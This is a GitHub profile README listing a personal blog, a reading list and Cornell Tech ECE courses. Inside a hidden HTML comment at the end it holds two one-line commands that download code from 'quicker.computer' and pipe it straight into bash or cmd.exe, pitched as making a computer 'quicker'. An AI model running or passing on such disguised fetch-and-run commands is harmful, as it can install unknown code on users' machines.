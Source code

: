 ## Welcome!
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currently Projects
- 💻 Checkout my blog [Quantum Dempsey](https://quantumdempsey.wordpress.com/) 


### Current Reading list
- 📖 [Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881)
- 📖[Surely Your Joking Mr.Feynman!](https://en.wikipedia.org/wiki/Surely_You%27re_Joking,_Mr._Feynman!)
- 📖[Efficient Processing of Deep Neural Networks](https://link.springer.com/book/10.1007/978-3-031-01766-7)

### Graduated M.Eng ECE at Cornell Tech in NYC:
#### Fall Courses:
- Applied Digital Signal Processing and Communications
- ASIC Design
- Applied Machine Learning

#### Spring Courses:
- Neuromorphic Computing - Chip Design (PHD)
- Machine Learning Hardware Systems
- Sustainable Computing (PHD)


<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
